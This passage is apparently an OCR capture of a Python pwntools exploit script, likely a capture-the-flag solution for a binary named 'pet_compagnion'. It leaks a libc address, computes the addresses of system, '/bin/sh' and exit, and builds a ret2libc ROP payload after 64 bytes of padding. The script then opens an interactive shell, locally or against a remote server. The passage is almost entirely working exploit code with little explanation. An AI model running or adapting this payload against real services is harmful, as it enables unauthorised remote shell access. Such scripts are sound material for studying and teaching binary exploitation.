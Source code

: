 ```python
    print("leaked:", leaked_write)
    write_address = u64(leaked_write.strip().ljust(8, b"\x00"))
    print(hex(write_address))

    # Calculate libc base address
    libc.address = write_address - libc.symbols['write']

    print("Glibc_base:", hex(libc.address))
    proc.clean()
    system_address = libc.symbols['system']
    print(hex(system_address))


    # /bin/sh string address (gdb -> info proc map -> find x,y,"/bin/sh")
    # bin_sh = 0x7ffff79b3d88
    bin_sh = next(libc.search(b"/bin/sh"))
    print('/bin/sh address:', hex(bin_sh))

    # # System address (gdb -> p system)
    # system_addr = 0x7ffff784f420
    system_addr = libc.symbols["system"]
    print("System address:", hex(system_addr))


    # Exit addresslibc_base
    exit_addr = libc.symbols["exit"]
    print("Exit address:", hex(exit_addr))

    # Searching for "ret" inside binary
    ret = rop.find_gadget(['ret'])[0]
    print("ret; addr found:", hex(ret))

    payload = b"A"*64
    # Building our paylaod
    payload += p64(ret)
    payload += p64(pop_rdi_ret)
    payload += p64(bin_sh)
    payload += p64(system_addr)
    payload += p64(exit_addr)

    # Send the payload
    proc.clean()
    proc.sendline(payload)

    # with open ('input.txt', 'wb') as out:
    #     out.write(payload)

    print(b"trying payload", payload)
    
    proc.interactive()

    res = proc.recvall(timeout=10)
    print(bytes.decode(res))


def run_remote():
    conn = remote(REMOTE_SERVER, REMOTE_PORT)
    pwn_pet_compagnion(conn)

def run_bin_local(process_path: str):
    proc = process([process_path])
    pwn_pet_compagnion(proc)

```